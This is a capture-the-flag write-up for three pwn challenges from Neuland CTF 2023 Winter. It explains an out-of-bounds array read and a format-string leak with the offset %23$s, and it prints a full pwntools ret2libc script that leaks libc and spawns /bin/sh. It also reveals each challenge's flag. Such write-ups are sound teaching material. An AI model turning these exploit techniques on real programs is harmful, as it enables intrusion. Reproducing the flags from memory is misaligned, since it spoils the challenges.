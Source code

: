 ```yaml
---
title: "Neuland CTF 2023 Winter - PWN/Binary Exploitation"
authors: ["Neuland CTF Orga"]
date: 2023-12-09T21:00
published: true
tags:
- ctf
- writeup
- security
- cyber
- cybersecurity
---
```


</br>

Download challenges: [Neuland CTF Repository](https://github.com/neuland-ingolstadt/Neuland-CTF-2023-Winter)

</br>

## Higher and Lower - Easy
*No one has guessed my number yet, maybe you can find another way to get the flag.*

[higher_lower.c](/files/neuland-ctf-12-2023/higher_lower.c)

</br>

The program is the well-known children's game higher or lower. However, as the author teases in the description, there is probably no way to win the game fairly. In the enclosed C code, the flag is initially defined and then referenced in the main. Furthermore, the inefficient design decision was made to use an array to select the numbers. Our guessed number is used as an index for this array, and the respective position is output. Since the flag variable in the stack is right next to the array, and the input is not sanitized, we might have a chance to query the flag above it. Depending on the compiler, we print the segment by calling index *-1* or *11*, which is no longer in the array but outputs the surrounding variables.

</br>

The flag is `nland{practical_application_abandoned}`.

</br>

## Secure4Sure - Easy
*Works as intended?*

[Secure4Sure.c](/files/neuland-ctf-12-2023/Secure4Sure.c)

</br>

We get C code, which appears to be the login for Secure4Sure. The user can enter an access code, and the program compares it with the hardcoded string at the beginning of the program. The user input looks like a suitable attack vector because it is printed later in the program. The fgets() function reads a line of the specified input stream and stores it in the buffer variable. These are the perfect conditions for a format string attack that uses printf() features. For example, the string to be output can be manipulated using special commands such as *%s* or *%d*. `printf("My %s is", name)`. *%s* which expects a string is replaced by the contents of the name variable. Printf() reads the previous address from the stack. So if we typed *printf(%s %s)* we would get the last two strings on the stack. However, if this input is longer than the maximum length defined in fgets(), we get a segment fault. Another string format feature is *%&lt;nth address>$s*, which jumps directly to the specified point in the stack. If we write *%p* as input, the program returns the pointer address. With this address, you can look at the stack and calculate the offset. A more straightforward method that does not require precise knowledge of the stack and how it works is fuzzing. Here, you can try out all offsets until the access code is output. With the locally used compiler, the correct offset was *%23$s*.

![](../../src/blog/images/neuland-ctf-12-2023/Secure4Sure.webp)

</br>

The flag is `nland{DIN13432}`.

</br>

## Safe Return - Hard
Author: [Jonny](https://github.com/Baikuya)</br>

*There is always a safe place to return :).*

[Safe_Return.c](/files/neuland-ctf-12-2023/Safe_Return.c)

</br>

```
from pwn import *

p = process("./Safe_Return")
write_addr = 0x08049291
puts_addr = 0x08049245
hello_addr = 0x0804a008
got_read = 0x0804c004
p.send(b"A"*0x34)
p.recvuntil(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
p.recv(4)
ebp_bytes = p.recv(4)
ebp = u32(ebp_bytes)
print(hex(ebp))
safe_function = 0x080491b6
ret_nop=0x080491e4
p.recvuntil(b"\n")
payload = b"A"*0x48+p32(ebp)+p32(puts_addr)+p32(got_read)+p32(0)*2+p32(safe_function)
payload += b"A"*(0x80-len(payload))

p.send(payload)
read_leak = u32(p.clean(timeout=1)[:4])
read_offset = 0x0011e0a0
print(hex(read_leak))
libc_base = read_leak-read_offset
print(hex(libc_base))

system = libc_base + 0x0004f600
payload = b"A"*0x48+p32(ebp)+p32(system)+p32(0)+p32(ebp+20)+b"/bin/sh\x00"
payload += b"A"*(0x80-len(payload))
p.send(payload)

p.interactive()
```

</br>

The flag is `nland{G0_TO_J0NNy_And_Say_KinkoFe}`.
